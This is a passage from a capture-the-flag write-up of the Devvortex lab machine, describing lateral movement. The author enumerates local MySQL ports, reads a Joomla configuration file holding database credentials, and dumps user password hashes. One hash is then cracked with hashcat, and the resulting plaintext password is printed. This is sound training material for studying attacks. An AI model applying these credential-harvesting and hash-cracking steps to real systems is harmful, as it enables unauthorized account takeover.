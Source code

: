 ![](Pasted%20image%2020241119161459.png)

## Lateral movement

As I don't have permissions to read user flag, I performed some enumeration among the machine.

I noticed that port 33060 and 3306 were in use:

```shell
ss -tlpn

[redacted]
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         70               127.0.0.1:33060            0.0.0.0:*                                                                                       
LISTEN    0         151              127.0.0.1:3306             0.0.0.0:*        
```

This ports are used by mysql databases, so I searched inside `/var/` for its configuration, where I discovered `/var/www.dev.devvortex.htb/configuration.php`:

```shell
cat /var/www.dev.devvortex.htb/configuration.php

[redacted]
public $user = 'lewis';
public $password = 'P4ntherg0t1n5r3c0n##';
```

Casually the creds are the same as Joomla:

```sql
show databases;
use joomla;
show tables;
select username,password from sd4fg_users;

+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

So now we can try to crack logan creds :D using Hashcat. Seems to be bcrypt:
- Check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
# First save the hash in a file (hashes.txt)
hashcat -m 3200 -a 0 -o cracked.txt hashes.txt ~/wordlists/rockyou.txt

# cat cracked.txt
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```
